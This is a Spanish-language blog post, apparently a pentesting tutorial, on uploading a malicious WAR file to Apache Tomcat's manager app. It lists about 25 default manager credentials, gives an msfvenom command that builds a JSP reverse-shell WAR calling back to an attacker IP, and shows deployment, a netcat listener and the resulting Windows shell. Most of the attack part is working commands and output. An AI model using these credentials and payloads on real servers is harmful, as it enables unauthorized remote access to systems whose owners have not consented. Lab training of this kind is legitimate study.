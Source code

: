```yaml
---
date: 2022-10-29T00:20:05.000Z
layout: post
comments: true
title: Subir archivo malicioso en tomcat
subtitle: 'WAR file'
description: >-
image: >-
    http://imgfz.com/i/rbPl7wv.png
optimized_image: >-
    http://imgfz.com/i/rbPl7wv.png
category: ciberseguridad
tags: 
  - linux
  - hacking
  - exploit
  - vulnerabilidad
  - war
author: Felipe Canales Cayuqueo
paginate: true
---
```


Apache Tomcat es un servidor web de código abierto y contenedor de Servlet para código Java. En esta ocasión se subirá un archivo por medio del "manager app", en el cual muchas veces contiene alguna de las siguientes credenciales:

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

Si ya obtuvimos acceso al "manager app", debemos crear nuestro payload por medio de ```msfvenom```:

```bash
┌──(root㉿kali)-[/tomcat]
└─ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.23 LPORT=443 -f war -o reverse.war                                       
Payload size: 1085 bytes
Final size of war file: 1085 bytes
Saved as: reverse.war
```

```bash
┌──(root㉿kali)-[/tomcat]
└─ ls
reverse.war
```

Ahora dentro del "manager app" nos dirigimos a la sección "archivo WAR a desplegar" y le damos en "Choose File":

![tomcat1](/images/tomcat.png)

Y seleccionamos el archivo ```reverse.war``` para desplegar:

![tomcat2](/images/tomcatwarupload.png)

Nos ponemos a la escucha con ```netcat``` en el puerto 443:

```bash
┌──(root㉿kali)-[/tomcat]
└─ nc -nlvp 443
listening on [any] 443 ...
```

Y abrimos ```/reverse``` en la tabla de aplicaciones de Tomcat:

![tomcat2](/images/tomcatreversewar.png)


Para finalmente obtener nuestra shell interactiva:

```bash
┌──(root㉿kali)-[/tomcat]
└─ nc -nlvp 443
listening on [any] 443 ...
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.11] 49811
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>
```
  

